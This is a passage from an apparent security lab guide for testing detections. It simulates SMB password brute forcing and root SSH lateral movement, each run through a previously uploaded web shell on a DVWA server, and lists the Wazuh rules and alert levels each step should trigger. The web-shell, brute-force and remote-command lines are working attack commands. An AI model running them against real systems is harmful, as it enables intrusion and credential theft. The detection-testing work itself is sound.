 #### 2.2 SMB Authentication Attacks

```bash
# SMB brute force
for pass in $(cat passwords.txt); do
  curl "http://192.168.2.10/dvwa/hackable/uploads/shell.php?cmd=smbclient //192.168.3.10/C$ -U Administrator%$pass -c 'ls'"
done
```

**Expected Detections:**

- Windows Security Event 4625 (Failed logon)
- Multiple authentication failures
- Wazuh Rule: 18152 (Windows logon failure)
- Alert Level: High

### Phase 3: Successful Lateral Movement (10 minutes)

#### 3.1 SSH Access to Database Server

```bash
# Successful SSH connection (assuming weak credentials found)
curl "http://192.168.2.10/dvwa/hackable/uploads/shell.php?cmd=ssh root@192.168.3.20 'hostname && whoami'"

# Execute commands on database server
curl "http://192.168.2.10/dvwa/hackable/uploads/shell.php?cmd=ssh root@192.168.3.20 'ps aux | grep mysql'"
curl "http://192.168.2.10/dvwa/hackable/uploads/shell.php?cmd=ssh root@192.168.3.20 'netstat -tulpn | grep 3306'"
```

**Expected Detections:**

- Successful SSH login from web server
- Remote command execution
- Wazuh Rule: 5715 (SSH authentication success)
- Alert Level: Medium (but suspicious source)

---

## Scenario 3: Windows Domain Attack

### Objective

Simulate attacks against Active Directory infrastructure and Windows-specific techniques.

### Target Systems

- **Primary**: Windows Server 2019 DC (192.168.3.10)
- **Secondary**: Any domain-joined systems

### Attack Timeline
